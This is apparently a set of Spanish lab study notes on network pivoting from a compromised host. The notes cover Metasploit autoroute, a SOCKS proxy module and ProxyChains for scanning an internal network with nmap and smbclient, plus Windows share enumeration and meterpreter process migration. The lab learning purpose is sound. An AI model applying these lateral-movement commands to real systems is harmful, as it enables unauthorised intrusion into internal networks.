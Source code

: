 Una vez hemos vulnerado un sistema, podemos comprobar si ese sistema está conectado a otra red por medio de otra interfaz.
Si el sistema es linux usamos ifconfig si es windows ipconfig.
## **Pivoting con Metasploit y ProxyChains - Resumen Rápido** 🚀

1️⃣ **Identificar redes adicionales** en la máquina comprometida:

`ifconfig  # Linux   
`ipconfig  # Windows`
2️⃣ **Añadir la ruta en Metasploit** para redirigir tráfico a la red pivotada:
`run autoroute -s <ip>/20
`background`
3️⃣ **Levantar un servidor SOCKS en Metasploit:**

use auxiliary/server/socks_proxy
set VERSION 4a
set SRVPORT 9050
exploit

4️⃣ **Configurar ProxyChains** en el atacante (`/etc/proxychains4.conf`) SI ya está configurado no tocar:

socks4  127.0.0.1 9050

5️⃣ **Usar herramientas a través del túnel SOCKS:**

`proxychains nmap -sS -Pn -n -p- -sVC --open -T4 -v 10.10.10.100 -oN scan`

`proxychains smbclient -L \\10.10.10.100 -U usuario`


## Largo

Supongamos que hemos encontrado otra interfaz de red conectada a la 10.10.10.0/24.
Dentro de la consola meterpreter añadimos la ruta:
`run autoroute -s 10.10.10.0/24`
Entonces ya sabe meterpreter que para enviar paquetes a esa red deberá de pasar por el host vulnerado.

Despues usamos `background` para poner la session meterpreter en segundo plano.
Comprobamos versión de proxychains y configuración:
`cat /etc/proxychains4.conf`
o puede ser sin el 4. En esa configuración te dice el puerto en el que funciona ![[Pasted image 20250212121704.png]]


usaremos un módulo proxy `auxiliary/server/socks_proxy`. Lo configuramos según nuestra version de socks y puerto.
![[Pasted image 20250212121847.png]]


1. SET VERSION 4a
2. SET SRVPORT 9050
3. exploit
![[Pasted image 20250212121954.png]]

Podemos comprobar si está funcionando el proxy con:
`netstat -antp` y veremos que se está escuchando en el puerto 9050
![[Pasted image 20250212122121.png]]

Ahora podremos ejecutar un scan nmap sobre la máquina (demo1.ine.local) que está en una red que solo tenía acceso a través de otra interfaz la máquina que usamos de pivoting (demo.ine.local)

`proxy chains nmap -sS -Pn -n -p- -sVC --open -T4 -v demo1.ine.local -oN scan`

## Comandos dentro de la máquina windows pivoting.

### Mostrar los recursos compartidos de otra máquina:
`net view demo1.ine.local`
![[Pasted image 20250212122944.png]]


Si nos da acceso denegado, migrar el proceso meterpreter a otro con mayores privilegios:
si migras a lsass.exe no funciona el net view no se porque
`migrate -N explorer.exe`

![[Pasted image 20250212122754.png]]


### Usar recursos
Para usar un recurso en concreto:
![[Pasted image 20250212123027.png]]
Entonces ya tendremos disponible para usarlo, y lo hemos añadido a D: pero podríamos poner otra letra.
![[Pasted image 20250212123152.png]]

Y listarlo:
![[Pasted image 20250212123244.png]]
